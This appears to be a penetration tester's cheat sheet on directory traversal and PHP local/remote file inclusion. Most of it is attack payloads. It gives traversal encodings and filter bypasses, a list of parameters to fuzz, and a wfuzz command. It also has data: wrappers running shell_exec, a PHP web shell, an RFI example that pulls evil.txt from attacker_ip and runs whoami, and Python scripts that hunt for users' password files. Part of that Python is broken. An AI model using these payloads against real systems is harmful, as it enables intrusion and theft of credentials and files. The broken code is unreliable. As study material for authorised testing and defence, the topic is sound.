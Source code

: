 # File Inclusion And Directory Traversal
File Inclusion facilitation stems from Directory traversal vulnerabities. Directory traversal or path path traversal are identifiable by an ability to manipulate file paths with cli-esque: `../` or `..\` characters to change directory from the webpage beeing attacked. For [[Log-Poisoning]]

## Indication of Vulnerability
Locate parameteres and test for manipulation and arbitrary file reading.
1. URL query strings
	1. file extensions in URL query strings
1. Form bodies in search of values that appear as file references

Readable files by the `www-data` or account used to host the web server can be then be tested from the starting position of the web root directory such Linux's `/etc/passwd` or Window's `C:boot.ini`   

Warning messages can then reveal which functions are used in invalid parameter passing of one the above files.

## Traversal encoding:
Remember this is a guide to ideas of how to encode lfi, encoding payloads on the fly not from here.
```
../
..\
..\/
../etc/passwd\.\	# Path and dot truncation
../etc/passwd/./
%2e%2e%2f
%252e%252e%252f 	# Double encoding
%c0%ae%c0%ae%c0%af	# utf-8 encoding
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
....\
%00					# null byte
....////			# filter bypass
/%5C../%5C..

```

##  File inclusion Types
Local File Inclusion are occurent when the included file is present on the web server; Remote File Inclusion when a file is loaded from a remote source. Each is dependent of the language the  application is written in and server configuration.

For Windows files [[DT-FI-Windows-Files]]; for Linux files [[DT-FI-Linux-Files]]

## Indication of FIs
Locate parameteres and test for manipulation and arbitrary file execution.


Rabbit holes \/ Pitfalls:
1. Modern PHP versions disables remote URL includes
2. Routing and firewall rules regarding **ATTACKER PORT USAGE!** for connecting back to local attacking IP

## Vulnerable Functions 
Language | LFI/RFI | Function | Caveats | RTFM
--- | --- | --- | ---
[[Vulnerable-PHP-Functions]] | Both | `include()` | `badquery?file=` then `php://filter/convert.base64encode/resources=` | https://www.php.net/manual/en/function.include.php


## Indictions of (L|R)FIs - Functions
#### PHP
```php
// php.ini values:
register_globals
allow_url
```
RFI
```php
allow_url_include # Modern default is On, but RFI if off
```
[Older PHP apps have nullbyte vulnerability](https://www.php.net/manual/en/security.filesystem.nullbytes.php) 

## Wrappers
#### PHP
[RTFM PHP Wrappers](https://www.php.net/manual/en/wrappers.php)
```php
?data:text/plain,<?php echo shell_exec("dir") ?>
?base64:
```

## Parametres
[Hacktricks reference TR Bug Hunters](https://twitter.com/trbughunters/status/1279768631845494787)
```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```

## Fuzz for files
```bash
wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ
```

## RFI Local Serving Payloads
```php
<?php echo shell_exec($_GET['cmd']); ?>
# For similar:
# http://poor_web_server/bad.php?file=http://attacker_ip/evil.txt&cmd=whoami
```


## Appendix
Script LFI starting 
ON TODO LIST
[rapid7 blog](https://www.rapid7.com/blog/post/2016/07/29/pentesting-in-the-real-world-local-file-inclusion-with-windows-server-files/)

```python
import requests
import webbrowser
 
 
url = 'http://www.testpage.com?page='
 
LFI = '../../../../../../../../../'
 
pages = ['WINDOWS/system32/drivers/etc/hosts', 'WINDOWS/system32/win.ini', 'WINDOWS/system32/debug/NetSetup.log', 'WINDOWS/system32/config/AppEvent.Evt', 'WINDOWS/system32/config/SecEvent.Evt', 'WINDOWS/Panther/unattend.txt', 'WINDOWS/Panther/unattend.xml', 'WINDOWS/Panther/unattended.xml', 'WINDOWS/Panther/sysprep.inf']
 
for x in pages:
                  check = requests.get(url + LFI + x)
                  if check.status_code == 200:
                                    webbrowser.open(url + LFI + x)

import requests
import webbrowser
 
 
url = 'http://www.testpage.com?page='
 
LFI = '../../../../../../../../../'
 
usernames = ['bob.jones', 'tom.johnson', 'mary.thomas', 'bill.smith']
 
desktopini = '/Desktop/desktop.ini'
 
usersfiles = ['accounts.txt', 'passwords.doc', 'configs.txt', 'sensitiveinfo.doc']
 
for x in usernames:
                  check = requests.get(url + LFI + x + desktopini)
                  if check.status_code == 200:
                                    print(‘User ’ + x + ‘was found’)
                                    desktopsearch = requests.get(url + LFI + '/Desktop/' + usersfiles)
                                    if desktopsearch.status_code == 200:
                                                      webbrowser.open(url + LFI + '/Desktop/' + usersfiles)
```
						


## References
[certcube](https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/)
[Kory Kyzar](https://gist.github.com/korrosivesec)
[rapid7](https://www.rapid7.com/blog/post/2016/07/29/pentesting-in-the-real-world-local-file-inclusion-with-windows-server-files/)
[Older PHP apps have nullbyte vulnerability](https://www.php.net/manual/en/security.filesystem.nullbytes.php) 
[RTFM PHP Wrappers](https://www.php.net/manual/en/wrappers.php)